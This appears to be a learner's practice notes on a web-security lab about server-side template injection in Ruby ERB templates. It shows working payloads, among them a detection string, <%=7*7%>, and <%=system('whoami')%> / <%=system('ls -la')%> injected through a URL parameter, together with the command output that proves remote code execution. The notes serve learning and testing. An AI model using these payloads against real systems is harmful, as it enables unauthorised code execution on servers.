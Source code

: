   ```

### <= LABS Practice Notes =>



#### 1. Basic server-side template injection =>



* This lab using ERB Tempaltes

* Documentation for ERB Templates =>

  * https://puppet.com/docs/puppet/5.5/lang_template_erb.html#:~:text=An%20ERB%20template%20looks%20like,to%20control%20the%20templates'%20output.
  * https://puppet.com/docs/puppet/6.17/lang_template_erb.html
  * https://www.rubyguides.com/2018/11/ruby-erb-haml-slim/

* General Syntax => 

  * <%= %>

* When I click on Product 1 , It show me this =>

  * /?message=Unfortunately%20this%20product%20is%20out%20of%20stock

* But with Product 2, it show me Product 2 Details

* So, lets try Inject Product 1

* 1st I tried this as Detect => ${{<%[%'"}}%\

  * Result =>

  * <div> ${{[%'"}}%\ </div>

  * that above enclose in <div> element tag

* Now tried this -> <%=7*7%> => Result gave 49 under div element tag, so its mean Vulnerable

* By using ***"self.methods"***  =>

  * [:inspect, :to_s, :instance_variable_set, :instance_variable_defined?, :remove_instance_variable, :instance_of?, :kind_of?, :is_a?, :tap, :instance_variable_get, :instance_variables, :method, :public_method, :singleton_method, :define_singleton_method, :public_send, :extend, :to_enum, :enum_for, :pp, :<=>, :===, :=~, :!~, :eql?, :respond_to?, :freeze, :object_id, :send, :display, :nil?, :hash, :class, :singleton_class, :clone, :dup, :itself, :yield_self, :taint, :tainted?, :untrust, :untaint, :trust, :untrusted?, :methods, :frozen?, :protected_methods, :singleton_methods, :public_methods, :private_methods, :!, :equal?, :instance_eval, :==, :instance_exec, :!=, :__send__, :__id__]

* Now, lets run system commands => <%=system("whoami")%> 

  * Result -> carlos

* Now check pwd and then ls ->

  * <%=system("ls%20-la")%>
  * Result =>
  * total 32
    drwxr-xr-x 2 carlos carlos 4096 Nov  1 08:14 .
    drwxr-xr-x 6 root   root   4096 Jun 24 10:23 ..
    -rw-r--r-- 1 carlos carlos  119 Nov  1 08:14 .bash_history
    -rw-r--r-- 1 carlos carlos  220 Apr  4  2018 .bash_logout
  ```